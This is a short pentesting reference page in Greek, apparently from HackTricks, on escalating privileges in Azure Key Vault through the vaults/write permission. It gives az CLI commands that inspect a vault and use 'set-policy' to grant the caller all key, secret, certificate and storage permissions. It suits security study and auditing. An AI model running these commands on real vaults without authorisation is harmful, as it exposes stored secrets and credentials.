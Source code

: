 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

Για περισσότερες πληροφορίες σχετικά με αυτή την υπηρεσία, ελέγξτε:

{{#ref}}
../az-services/keyvault.md
{{#endref}}

### Microsoft.KeyVault/vaults/write

Ένας επιτιθέμενος με αυτή την άδεια θα είναι σε θέση να τροποποιήσει την πολιτική ενός key vault (το key vault πρέπει να χρησιμοποιεί πολιτικές πρόσβασης αντί για RBAC).
```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
--name <vault-name> \
--object-id <your-object-id> \
--key-permissions all \
--secret-permissions all \
--certificate-permissions all \
--storage-permissions all
```
{{#include ../../../banners/hacktricks-training.md}}
